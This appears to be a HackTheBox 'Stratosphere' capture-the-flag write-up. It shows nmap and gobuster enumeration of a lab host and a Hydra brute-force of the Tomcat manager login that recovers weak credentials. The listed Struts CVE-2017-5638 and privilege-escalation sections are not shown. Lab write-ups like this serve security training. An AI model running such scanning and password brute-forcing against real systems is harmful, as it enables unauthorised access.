#### Stratosphere

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Struts Vulnerability - CVE-2017-5638](#struts-Vulnerability-CVE-2017-5638)
- [Privilege Escalation](#privilege-escalation)

###### Attacker Info

```sh
root@kali:~/stratosphere# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:b0:a9:19 brd ff:ff:ff:ff:ff:ff
    inet 10.0.0.81/24 brd 10.0.0.255 scope global dynamic noprefixroute eth0
       valid_lft 604720sec preferred_lft 604720sec
    inet6 2601:5cc:c900:4024::ab95/128 scope global dynamic noprefixroute
       valid_lft 604722sec preferred_lft 604722sec
    inet6 2601:5cc:c900:4024:a12c:6f84:5cb8:d2e0/64 scope global temporary dynamic
       valid_lft 86393sec preferred_lft 86235sec
    inet6 2601:5cc:c900:4024:20c:29ff:feb0:a919/64 scope global dynamic mngtmpaddr noprefixroute
       valid_lft 86393sec preferred_lft 86393sec
    inet6 fe80::20c:29ff:feb0:a919/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    link/none
    inet 10.10.14.5/23 brd 10.10.15.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::1003/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::14e1:f3c7:b0cf:b07/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
root@kali:~/stratosphere#
```

###### Nmap Scan

```sh
root@kali:~/stratosphere# nmap -sC -sV -oA stratosphere.nmap 10.10.10.64
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-01 19:14 EDT
Nmap scan report for 10.10.10.64
Host is up (0.14s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey:
|   2048 5b:16:37:d4:3c:18:04:15:c4:02:01:0d:db:07:ac:2d (RSA)
|   256 e3:77:7b:2c:23:b0:8d:df:38:35:6c:40:ab:f6:81:50 (ECDSA)
|_  256 d7:6b:66:9c:19:fc:aa:66:6c:18:7a:cc:b5:87:0e:40 (ED25519)
80/tcp   open  http
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1114
|     Date: Sat, 01 Sep 2018 23:13:14 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404
|     Found</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body>
|   GetRequest:
|     HTTP/1.1 200
|     Accept-Ranges: bytes
|     ETag: W/"1708-1519762495000"
|     Last-Modified: Tue, 27 Feb 2018 20:14:55 GMT
|     Content-Type: text/html
|     Content-Length: 1708
|     Date: Sat, 01 Sep 2018 23:13:13 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta charset="utf-8"/>
|     <title>Stratosphere</title>
|     <link rel="stylesheet" type="text/css" href="main.css">
|     </head>
|     <body>
|     <div id="background"></div>
|     <header id="main-header" class="hidden">
|     <div class="container">
|     <div class="content-wrap">
|     <p><i class="fa fa-diamond"></i></p>
|     <nav>
|     class="btn" href="GettingStarted.html">Get started</a>
|     </nav>
|     </div>
|     </div>
|     </header>
|     <section id="greeting">
|     <div class="container">
|     <div class="content-wrap">
|     <h1>Stratosphere<br>We protect your credit.</h1>
|     class="btn" href="GettingStarted.html">Get started now</a>
|     <p><i class="ar
|   HTTPOptions:
|     HTTP/1.1 200
|     Allow: GET, HEAD, POST, PUT, DELETE, OPTIONS
|     Content-Length: 0
|     Date: Sat, 01 Sep 2018 23:13:13 GMT
|     Connection: close
|   RTSPRequest:
|     HTTP/1.1 400
|     Date: Sat, 01 Sep 2018 23:13:13 GMT
|     Connection: close
|   X11Probe:
|     HTTP/1.1 400
|     Date: Sat, 01 Sep 2018 23:13:14 GMT
|_    Connection: close
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-title: Stratosphere
8080/tcp open  http-proxy
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1114
|     Date: Sat, 01 Sep 2018 23:13:14 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404
|     Found</title><style type="text/css">h1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} h2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} h3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} body {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} b {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} p {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;} a {color:black;} a.name {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body>
|   GetRequest:
|     HTTP/1.1 200
|     Accept-Ranges: bytes
|     ETag: W/"1708-1519762495000"
|     Last-Modified: Tue, 27 Feb 2018 20:14:55 GMT
|     Content-Type: text/html
|     Content-Length: 1708
|     Date: Sat, 01 Sep 2018 23:13:13 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta charset="utf-8"/>
|     <title>Stratosphere</title>
|     <link rel="stylesheet" type="text/css" href="main.css">
|     </head>
|     <body>
|     <div id="background"></div>
|     <header id="main-header" class="hidden">
|     <div class="container">
|     <div class="content-wrap">
|     <p><i class="fa fa-diamond"></i></p>
|     <nav>
|     class="btn" href="GettingStarted.html">Get started</a>
|     </nav>
|     </div>
|     </div>
|     </header>
|     <section id="greeting">
|     <div class="container">
|     <div class="content-wrap">
|     <h1>Stratosphere<br>We protect your credit.</h1>
|     class="btn" href="GettingStarted.html">Get started now</a>
|     <p><i class="ar
|   HTTPOptions:
|     HTTP/1.1 200
|     Allow: GET, HEAD, POST, PUT, DELETE, OPTIONS
|     Content-Length: 0
|     Date: Sat, 01 Sep 2018 23:13:13 GMT
|     Connection: close
|   RTSPRequest:
|     HTTP/1.1 400
|     Date: Sat, 01 Sep 2018 23:13:13 GMT
|_    Connection: close
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Stratosphere
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.70%I=7%D=9/1%Time=5B8B1D7D%P=x86_64-pc-linux-gnu%r(GetRe
SF:quest,786,"HTTP/1\.1\x20200\x20\r\nAccept-Ranges:\x20bytes\r\nETag:\x20
SF:W/\"1708-1519762495000\"\r\nLast-Modified:\x20Tue,\x2027\x20Feb\x202018
SF:\x2020:14:55\x20GMT\r\nContent-Type:\x20text/html\r\nContent-Length:\x2
SF:01708\r\nDate:\x20Sat,\x2001\x20Sep\x202018\x2023:13:13\x20GMT\r\nConne
SF:ction:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<head>\n\x20\x20\x20
SF:\x20<meta\x20charset=\"utf-8\"/>\n\x20\x20\x20\x20<title>Stratosphere</
SF:title>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20type=\"text/css\
SF:"\x20href=\"main\.css\">\n</head>\n\n<body>\n<div\x20id=\"background\">
SF:</div>\n<header\x20id=\"main-header\"\x20class=\"hidden\">\n\x20\x20<di
SF:v\x20class=\"container\">\n\x20\x20\x20\x20<div\x20class=\"content-wrap
SF:\">\n\x20\x20\x20\x20\x20\x20<p><i\x20class=\"fa\x20fa-diamond\"></i></
SF:p>\n\x20\x20\x20\x20\x20\x20<nav>\n\x20\x20\x20\x20\x20\x20\x20\x20<a\x
SF:20class=\"btn\"\x20href=\"GettingStarted\.html\">Get\x20started</a>\n\x
SF:20\x20\x20\x20\x20\x20</nav>\n\x20\x20\x20\x20</div>\n\x20\x20</div>\n<
SF:/header>\n\n<section\x20id=\"greeting\">\n\x20\x20<div\x20class=\"conta
SF:iner\">\n\x20\x20\x20\x20<div\x20class=\"content-wrap\">\n\x20\x20\x20\
SF:x20\x20\x20<h1>Stratosphere<br>We\x20protect\x20your\x20credit\.</h1>\n
SF:\x20\x20\x20\x20\x20\x20<a\x20class=\"btn\"\x20href=\"GettingStarted\.h
SF:tml\">Get\x20started\x20now</a>\n\x20\x20\x20\x20\x20\x20<p><i\x20class
SF:=\"ar")%r(HTTPOptions,8A,"HTTP/1\.1\x20200\x20\r\nAllow:\x20GET,\x20HEA
SF:D,\x20POST,\x20PUT,\x20DELETE,\x20OPTIONS\r\nContent-Length:\x200\r\nDa
SF:te:\x20Sat,\x2001\x20Sep\x202018\x2023:13:13\x20GMT\r\nConnection:\x20c
SF:lose\r\n\r\n")%r(RTSPRequest,49,"HTTP/1\.1\x20400\x20\r\nDate:\x20Sat,\
SF:x2001\x20Sep\x202018\x2023:13:13\x20GMT\r\nConnection:\x20close\r\n\r\n
SF:")%r(X11Probe,49,"HTTP/1\.1\x20400\x20\r\nDate:\x20Sat,\x2001\x20Sep\x2
SF:02018\x2023:13:14\x20GMT\r\nConnection:\x20close\r\n\r\n")%r(FourOhFour
SF:Request,4F6,"HTTP/1\.1\x20404\x20\r\nContent-Type:\x20text/html;charset
SF:=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x201114\r\nDate:\x
SF:20Sat,\x2001\x20Sep\x202018\x2023:13:14\x20GMT\r\nConnection:\x20close\
SF:r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>HTTP\x20Stat
SF:us\x20404\x20\xe2\x80\x93\x20Not\x20Found</title><style\x20type=\"text/
SF:css\">h1\x20{font-family:Tahoma,Arial,sans-serif;color:white;background
SF:-color:#525D76;font-size:22px;}\x20h2\x20{font-family:Tahoma,Arial,sans
SF:-serif;color:white;background-color:#525D76;font-size:16px;}\x20h3\x20{
SF:font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D7
SF:6;font-size:14px;}\x20body\x20{font-family:Tahoma,Arial,sans-serif;colo
SF:r:black;background-color:white;}\x20b\x20{font-family:Tahoma,Arial,sans
SF:-serif;color:white;background-color:#525D76;}\x20p\x20{font-family:Taho
SF:ma,Arial,sans-serif;background:white;color:black;font-size:12px;}\x20a\
SF:x20{color:black;}\x20a\.name\x20{color:black;}\x20\.line\x20{height:1px
SF:;background-color:#525D76;border:none;}</style></head><body>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8080-TCP:V=7.70%I=7%D=9/1%Time=5B8B1D7D%P=x86_64-pc-linux-gnu%r(Get
SF:Request,786,"HTTP/1\.1\x20200\x20\r\nAccept-Ranges:\x20bytes\r\nETag:\x
SF:20W/\"1708-1519762495000\"\r\nLast-Modified:\x20Tue,\x2027\x20Feb\x2020
SF:18\x2020:14:55\x20GMT\r\nContent-Type:\x20text/html\r\nContent-Length:\
SF:x201708\r\nDate:\x20Sat,\x2001\x20Sep\x202018\x2023:13:13\x20GMT\r\nCon
SF:nection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html>\n<head>\n\x20\x20\x
SF:20\x20<meta\x20charset=\"utf-8\"/>\n\x20\x20\x20\x20<title>Stratosphere
SF:</title>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20type=\"text/cs
SF:s\"\x20href=\"main\.css\">\n</head>\n\n<body>\n<div\x20id=\"background\
SF:"></div>\n<header\x20id=\"main-header\"\x20class=\"hidden\">\n\x20\x20<
SF:div\x20class=\"container\">\n\x20\x20\x20\x20<div\x20class=\"content-wr
SF:ap\">\n\x20\x20\x20\x20\x20\x20<p><i\x20class=\"fa\x20fa-diamond\"></i>
SF:</p>\n\x20\x20\x20\x20\x20\x20<nav>\n\x20\x20\x20\x20\x20\x20\x20\x20<a
SF:\x20class=\"btn\"\x20href=\"GettingStarted\.html\">Get\x20started</a>\n
SF:\x20\x20\x20\x20\x20\x20</nav>\n\x20\x20\x20\x20</div>\n\x20\x20</div>\
SF:n</header>\n\n<section\x20id=\"greeting\">\n\x20\x20<div\x20class=\"con
SF:tainer\">\n\x20\x20\x20\x20<div\x20class=\"content-wrap\">\n\x20\x20\x2
SF:0\x20\x20\x20<h1>Stratosphere<br>We\x20protect\x20your\x20credit\.</h1>
SF:\n\x20\x20\x20\x20\x20\x20<a\x20class=\"btn\"\x20href=\"GettingStarted\
SF:.html\">Get\x20started\x20now</a>\n\x20\x20\x20\x20\x20\x20<p><i\x20cla
SF:ss=\"ar")%r(HTTPOptions,8A,"HTTP/1\.1\x20200\x20\r\nAllow:\x20GET,\x20H
SF:EAD,\x20POST,\x20PUT,\x20DELETE,\x20OPTIONS\r\nContent-Length:\x200\r\n
SF:Date:\x20Sat,\x2001\x20Sep\x202018\x2023:13:13\x20GMT\r\nConnection:\x2
SF:0close\r\n\r\n")%r(RTSPRequest,49,"HTTP/1\.1\x20400\x20\r\nDate:\x20Sat
SF:,\x2001\x20Sep\x202018\x2023:13:13\x20GMT\r\nConnection:\x20close\r\n\r
SF:\n")%r(FourOhFourRequest,4F6,"HTTP/1\.1\x20404\x20\r\nContent-Type:\x20
SF:text/html;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x
SF:201114\r\nDate:\x20Sat,\x2001\x20Sep\x202018\x2023:13:14\x20GMT\r\nConn
SF:ection:\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><t
SF:itle>HTTP\x20Status\x20404\x20\xe2\x80\x93\x20Not\x20Found</title><styl
SF:e\x20type=\"text/css\">h1\x20{font-family:Tahoma,Arial,sans-serif;color
SF::white;background-color:#525D76;font-size:22px;}\x20h2\x20{font-family:
SF:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:
SF:16px;}\x20h3\x20{font-family:Tahoma,Arial,sans-serif;color:white;backgr
SF:ound-color:#525D76;font-size:14px;}\x20body\x20{font-family:Tahoma,Aria
SF:l,sans-serif;color:black;background-color:white;}\x20b\x20{font-family:
SF:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;}\x20p\x20
SF:{font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-
SF:size:12px;}\x20a\x20{color:black;}\x20a\.name\x20{color:black;}\x20\.li
SF:ne\x20{height:1px;background-color:#525D76;border:none;}</style></head>
SF:<body>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.35 seconds
root@kali:~/stratosphere#
```

###### Web Enumeration

```
http://10.10.10.64/
```


```
http://10.10.10.64/robots.txt
```



```
http://10.10.10.64/manager
```



```sh
root@kali:~/stratosphere# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.64

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.64/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/manager (Status: 302)
/Monitoring (Status: 302)
```

```sh
root@kali:~/stratosphere/hydra# git clone https://github.com/danielmiessler/SecLists.git /usr/share/seclists
Cloning into '/usr/share/seclists'...
remote: Counting objects: 2798, done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 2798 (delta 4), reused 14 (delta 4), pack-reused 2777
Receiving objects: 100% (2798/2798), 444.90 MiB | 18.19 MiB/s, done.
Resolving deltas: 100% (1274/1274), done.
Checking out files: 100% (713/713), done.
root@kali:~/stratosphere/hydra#
```

```sh
root@kali:~/stratosphere/hydra# cat users.txt
admin
tomcat
root
root@kali:~/stratosphere/hydra#
```

```sh
root@kali:~/stratosphere/hydra# hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-09-01 19:31:55
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3000 login tries (l:3/p:1000), ~188 tries per task
[DATA] attacking http-get://10.10.10.64:80//manager
[80][http-get] host: 10.10.10.64   login: admin   password: 123456789
[STATUS] attack finished for 10.10.10.64 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-09-01 19:31:56
root@kali:~/stratosphere/hydra#
```





```
http://10.10.10.64/manager/html
```

```sh
root@kali:~/stratosphere/hydra# hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-09-01 19:33:43
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3000 login tries (l:3/p:1000), ~188 tries per task
[DATA] attacking http-get://10.10.10.64:80//manager/html
[STATUS] 1448.00 tries/min, 1448 tries in 00:01h, 1552 to do in 00:02h, 16 active
[STATUS] 1453.00 tries/min, 2906 tries in 00:02h, 94 to do in 00:01h, 16 active
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-09-01 19:35:47
root@kali:~/stratosphere/hydra#
```

```
http://10.10.10.64/Monitoring/example/Welcome.action
```





